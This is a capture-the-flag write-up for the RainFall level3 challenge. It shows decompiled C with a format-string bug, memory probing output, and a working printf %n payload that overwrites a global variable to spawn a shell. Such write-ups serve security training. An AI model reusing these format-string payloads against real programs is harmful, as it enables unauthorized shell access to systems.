 # Solution

```c
int m = 0;

int v()
{
  int result; // eax
  char v1[520]; // [esp+10h] [ebp-208h] BYREF

  fgets(v1, 512, stdin);
  printf(v1);
  result = m;
  if ( m == 64 )
  {
    fwrite("Wait what?!\n", 1, 12, stdout);
    return system("/bin/sh");
  }
  return result;
}
```

exploit : Format string bug

```sh
level3@RainFall:~$ readelf -s level3 | grep m
    66: 0804988c     4 OBJECT  GLOBAL DEFAULT   25 m

level3@RainFall:~$ ./level3 
AAAA %p %p %p %p
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141
```

our buffer is at the 4th address
we need m = 64 so we need to write 64 byte with printf and then write it to the address of m
payload : address of m (4) + padding (60) + %4$n (write 64 to 4th address (m))


```sh
(python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"'; cat -) | ./level3 
```

